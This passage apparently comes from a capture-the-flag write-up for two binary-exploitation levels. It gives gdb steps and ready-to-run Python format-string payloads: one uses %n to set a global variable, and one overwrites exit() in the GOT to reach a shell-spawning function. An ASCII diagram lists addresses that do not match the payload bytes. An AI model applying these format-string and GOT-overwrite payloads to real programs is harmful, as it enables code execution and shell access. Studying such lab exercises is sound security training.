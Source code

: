 printf is vulnerable

global integer has to have the value 0x1025544 (16930116)

### Resolve

```shell
b *p+17 # just after printf
run <<< AAAA
telescope 10
  => offset: 12

m address: 0x8049810
value: 0x1025544 - 0x4 = 0x1025540 <=> 16930112
buffer relative address: %12%n

./level4 < <(python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")')
```

---

## Level5 - Format string vulnerability - Code redirection with GOT Overwrite

o-function creates a new shell, but is not called

overwrite the address of exit() in the GOT with the address of o()

### Resolve

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
  080484a4 g     F .text  0000001e   o

# we want to write the value `0x080484a4` at the address of exit: `0x08049838`

b *p+54 # just after printf
run <<< AAAA
telescope 10
  => offset: 4

ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   |           |            |                       |
0x0804083a 0x08040838  (0x0804 - 8)         (0x84a4 - 0x0804)

=> "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"

python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/exploit5
cat /tmp/exploit5 - | ~/level5
```

---